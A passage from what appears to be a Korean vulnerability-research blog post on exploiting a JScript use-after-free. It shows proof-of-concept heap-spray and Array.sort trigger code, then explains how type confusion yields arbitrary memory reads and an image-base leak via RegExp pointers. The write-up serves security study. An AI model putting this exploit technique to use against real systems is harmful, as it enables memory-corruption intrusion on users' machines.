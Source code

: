 ```html
    for (var i = 0; i < 0x1000; i++) {
        arr_overlap[i] = new Array();
    }
 
    for (var i = 0; i < maxnum; i++) {
        arr_sort[i] = new Array(1, 2);
    }
 
    for (var i = 0; i < maxnum; i++) {
        arr_uaf[i] = new Object();
    }
 
    arr_sort[0].sort(fncCompare);
 
    for (var i = 0; i < maxnum; i++) {
        if ((typeof arr_ref[i]) === "number") {
            if (arr_ref[i] === 0x1337) {
                alert( i + " / " + typeof arr_ref[i] + " / " + arr_ref[i].toString(16) );
                break;
            }
        }
    }
</script>
```


실행 결과는 다음과 같다.

| [![img](https://1.bp.blogspot.com/-Ac3KDPe1Q8s/XpW5NWkkiiI/AAAAAAAAAZw/mMaud4VRVW4PjCMsUVWvE0F8vW1MzT2JgCLcBGAsYHQ/s1600/12.png)](https://1.bp.blogspot.com/-Ac3KDPe1Q8s/XpW5NWkkiiI/AAAAAAAAAZw/mMaud4VRVW4PjCMsUVWvE0F8vW1MzT2JgCLcBGAsYHQ/s1600/12.png) |
| ------------------------------------------------------------ |
| 그림 12. 사용 중인 Object Variant                            |

| [![img](https://1.bp.blogspot.com/-DXvJzovYtbg/XpW5U59a23I/AAAAAAAAAZ0/Qs6NUabRUCEpcCy9c1BxC7zqZK8Q6dTrgCLcBGAsYHQ/s1600/13.png)](https://1.bp.blogspot.com/-DXvJzovYtbg/XpW5U59a23I/AAAAAAAAAZ0/Qs6NUabRUCEpcCy9c1BxC7zqZK8Q6dTrgCLcBGAsYHQ/s1600/13.png) |
| ------------------------------------------------------------ |
| 그림 13. Clear 및 free된 Variant                             |

| [![img](https://1.bp.blogspot.com/-mMFAxlerKWc/XpW5bpGz11I/AAAAAAAAAZ4/eqUu1eJFCO49xCVllhDdYro_aT-MxgJAQCLcBGAsYHQ/s1600/14.png)](https://1.bp.blogspot.com/-mMFAxlerKWc/XpW5bpGz11I/AAAAAAAAAZ4/eqUu1eJFCO49xCVllhDdYro_aT-MxgJAQCLcBGAsYHQ/s1600/14.png) |
| ------------------------------------------------------------ |
| 그림 14. NamedList에 의해 overlap되어 생성된 가짜 Number Variant |

| [![img](https://1.bp.blogspot.com/-C33SopK3qyE/XpW5jPkpXWI/AAAAAAAAAZ8/8WcC6kCCDFc9irSRdu8zlvE7kh9PjXlrQCLcBGAsYHQ/s1600/15.png)](https://1.bp.blogspot.com/-C33SopK3qyE/XpW5jPkpXWI/AAAAAAAAAZ8/8WcC6kCCDFc9irSRdu8zlvE7kh9PjXlrQCLcBGAsYHQ/s1600/15.png) |
| ------------------------------------------------------------ |
| 그림 15. Type Confusion된 가짜 Number를 출력한 결과          |


### Type Confusion을 이용한 Arbitrary Read

 JScript는 문자열을 [BSTR](https://docs.microsoft.com/en-us/previous-versions/windows/desktop/automat/bstr) 형식으로 저장한다. 문자열을 나타내는 String Variant의 종류는 0x82 이고, 데이터는 BSTR의 Data String 포인터를 가리킨다. Type Confusion을 통해 가짜 String Variant를 생성할 때, BSTR의 포인터 대신 읽고자 하는 메모리 주소를 삽입한 후 문자열을 읽으면 임의 메모리 읽기가 가능하다.
 JScript의 Image Base 주소를 얻기 위해 Object 객체의 메모리를 읽어야 한다. Object 객체는 종류 0x81인 Object Variant가 가리킨다. Use After Free 취약점에 사용되는 Object Variant에 RegExp 객체를 사용할 경우, Object Variant의 데이터는 RegExp 포인터가 저장된다. GcBlock을 해제하면 VAR::Clear가 Object Variant의 종류를 0으로 설정하지만, 데이터는 지우지 않는다. 이후 해제된 GcBlock을 재사용할 때, GcBlock은 해제되기 전 Object Variant의 데이터에 존재하는 RegExp 객체 포인터를 가지고 있다. 가짜 Number Variant의 데이터로 입력한 \u1337을 입력하지 않으면, 기존에 존재하는 RegExp 객체 포인터를 읽는다. RegExp 객체를 생성할 때, 패턴을 지정하면 RegExp 객체와 컴파일된 패턴 문자열이 차례로 GcBlock에 생성된다. 패턴 문자열은 문자열이 필요한 경우 사용이 가능하다.
